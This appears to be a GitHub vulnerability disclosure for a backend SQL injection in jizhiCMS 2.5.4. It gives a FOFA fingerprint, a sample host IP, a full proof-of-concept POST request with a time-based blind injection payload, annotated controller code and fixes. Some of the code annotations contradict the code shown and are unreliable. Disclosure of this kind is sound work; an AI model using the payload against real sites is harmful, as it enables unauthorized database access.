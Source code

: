 # jizhicms-sql01
The jizhicms version 2.5.4 contains a backend SQL injection vulnerability.
Jizhicms-sql
The jizhicms version 2.5.4 contains a backend SQL injection vulnerability. There is a backend SQL injection vulnerability in jizhiCMS version 2.5.4. Fingerprint fofa:icon_hash="1657387632" SQL injection Vulnerability The vulnerable file is located at: http://154.217.245.237:1234/index.php/admins/Comment/addcomment.html This is where the backend SQL injection vulnerability exists in jizhiCMS version 2.5.4. Vulnerability Poc(Proof of Concept):
POST /index.php/admins/Comment/addcomment.htm HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
ccept: / X-Requested-With: XMLHttpRequest 
Referer: http://154.217.245.237:1234/index.php/admins/Comment/addcomment.htm
Cookie: PHPSESSID=umgc0aguscmvgmjv96mvjmpd81 Accept-Encoding: gzip, deflate Origin: http://154.217.245.237:1234 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0 Content-Length: 47

go=1&userid=1&tid=0' OR (SELECT 6192 FROM (SELECT(SLEEP(5)))EDtk) AND 'KAVJ'='KAVJ&aid=1&zid=1&pid=1&body=<p>1</p >&reply=&ismsg=0&likes=0&isread=0&isshow=1&addtime=2025-05-08 00:34:14

Vulnerability Type: Backend SQL Injection 
Affected File/Function:  jizhicms-2.5.4/app/admin/c/CommentController.php，

Component: jizhiCMS 2.5.4
Attack Vector: Authenticated POST request
Vulnerable Code: function commentlist(){
    
// [Injection Point 1] - The 'tid' parameter is not filtered, potentially leading to SQL injection
// Attackers can pass values like "1 OR 1=1" to tamper with SQL logic
    $this->tid=  $this->frparam('tid');
    
 // [Injection Point 2] - The 'aid' parameter is not validated, posing an injection risk
    $this->aid = $this->frparam('aid');
    
// [Injection Point 3] - Improper handling of the 'isshow' parameter
// Although value checks are performed later, strict type conversion is not enforced, allowing attackers to pass "1' OR '1'='1".
    $this->isshow = $this->frparam('isshow');
    
// [Injection Point 4] - The 'userid' parameter is not filtered
    $this->userid = $this->frparam('userid');
    
// [Injection Point 5] - The filtering mechanism for the 'body' parameter is unclear
// The meaning of the second parameter "1" is unknown, which may result in insufficient filtering.
    $this->body = $this->frparam('body',1);

    
    if($this->frparam('ajax')){
        
        $page = new Page('Comment');
        $sql = '1=1';
        
        // [注入点6] - isshow参数直接拼接到SQL中
        // 若传入非预期值（如"1 OR 1=1"），会导致条件恒真
        if($this->isshow==1){
            $sql .= ' and isshow=1 ';
        }else if($this->isshow==2){
            $sql .= ' and isshow=0 ';
        }else if($this->isshow==3){
            $sql .= ' and isshow=2 ';
        }
        
// [Injection Point 6] - The 'isshow' parameter is directly concatenated into the SQL query
// If an unexpected value (e.g., "1 OR 1=1") is provided, it will cause the condition to always evaluate to true.
        if($this->admin['classcontrol']==1 && $this->admin['isadmin']!=1 && $this->molds['iscontrol']!=0 && $this->molds['isclasstype']==1){
            $a1 = explode(',',$this->tids);
            $a2 = array_filter($a1);
            $tids = implode(',',$a2);
            $sql.=' and tid in('.$tids.') '; // Directly concatenates user input 'tids' without sanitization
        }
 Description: The application builds a dynamic SQL query using a variable $this->tids, which is concatenated directly into the SQL string without any sanitization or parameterization. If an attacker is able to control or manipulate the value of $this->tids, they could inject arbitrary SQL code into the query
Impact: Unauthorized SQL execution Information disclosure Potential remote code execution (if combined with other vulnerabilities) Database integrity compromise 
Recommendation: Sanitize and strictly cast input values to expected types (e.g., use (int)$this->frparam('isshow')) Replace raw SQL concatenation with prepared statements (parameterized queries)
![image](https://github.com/user-attachments/assets/83413b62-8d0c-4413-b5cb-033f587af5d2)
![image](https://github.com/user-attachments/assets/f7ded6d0-31ba-4e11-8bae-e5790cdce4c1)

